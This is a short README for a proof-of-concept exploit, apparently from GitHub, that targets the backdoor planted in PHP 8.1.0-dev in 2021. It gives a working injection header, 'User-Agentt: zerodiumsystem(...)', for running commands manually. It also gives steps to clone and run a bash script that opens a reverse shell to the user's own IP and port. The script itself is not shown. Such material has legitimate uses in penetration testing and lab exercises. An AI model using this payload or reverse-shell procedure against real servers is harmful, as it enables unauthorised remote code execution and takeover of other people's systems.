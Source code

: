 # PHP-8.1.0-dev_RCE

## Description

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following bash exploit uses the backdoor to provide a shell on the host. A simple proof of concept file.

## Usage

You can exploit this manually by adding the 

`User-Agentt: zerodiumsystem('ls');`

header in Burp Suite or just run the script with the host IP, your own IP + port (for the reverse shell) and enjoy your shell:

`$ git clone https://github.com/PenTestical/PHP-8.1.0-dev_RCE && cd PHP-8.1.0-dev_RCE/`

`$ chmod +x exploit.sh`

`$ bash exploit.sh`
